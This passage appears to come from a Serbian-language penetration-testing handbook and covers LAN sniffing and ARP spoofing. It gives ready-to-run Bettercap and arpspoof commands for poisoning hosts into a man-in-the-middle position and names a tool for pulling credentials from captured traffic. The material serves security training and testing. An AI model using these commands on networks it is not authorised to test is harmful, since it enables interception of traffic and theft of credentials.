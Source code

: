 ```bash
net.sniff on
net.sniff stats
set net.sniff.output sniffed.pcap #Write captured packets to file
set net.sniff.local  #If true it will consider packets from/to this computer, otherwise it will skip them (default=false)
set net.sniff.filter #BPF filter for the sniffer (default=not arp)
set net.sniff.regexp #If set only packets matching this regex will be considered
```

### Wireshark

Očigledno.

### Snimanje akreditacija

Možete koristiti alate poput [https://github.com/lgandx/PCredz](https://github.com/lgandx/PCredz) za parsiranje akreditacija iz pcap datoteke ili sa živog interfejsa.

## Napadi na LAN mrežu

### ARP spoofing

ARP spoofing se sastoji od slanja lažnih ARP odgovora kako bi se naznačilo da IP adresa određenog uređaja ima MAC adresu našeg uređaja. Zatim, žrtva će promeniti ARP tabelu i kontaktiraće naš uređaj svaki put kada želi da kontaktira IP adresu koja je lažirana.

#### **Bettercap**

```bash
arp.spoof on
set arp.spoof.targets <IP> #Specific targets to ARP spoof (default=<entire subnet>)
set arp.spoof.whitelist #Specific targets to skip while spoofing
set arp.spoof.fullduplex true #If true, both the targets and the gateway will be attacked, otherwise only the target (default=false)
set arp.spoof.internal true #If true, local connections among computers of the network will be spoofed, otherwise only connections going to and coming from the Internet (default=false)
```

#### **Arpspoof**

Arpspoof je alat koji omogućava napadaču da lažira ARP odgovore i preusmerava mrežni saobraćaj. Ovo omogućava napadaču da izvede napade kao što su Man-in-the-Middle (MitM) i sniffing mrežnog saobraćaja. Arpspoof koristi ARP protokol za manipulaciju ARP tabela na ciljnom računaru i usmerava saobraćaj preko napadačevog računara. Ovo omogućava napadaču da presretne, modifikuje ili prisluškuje mrežni saobraćaj između dve komunikacijske strane.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -t 192.168.1.1 192.168.1.2
arpspoof -t 192.168.1.2 192.168.1.1
```

### MAC Poplavljanje - Prekoračenje CAM tabele
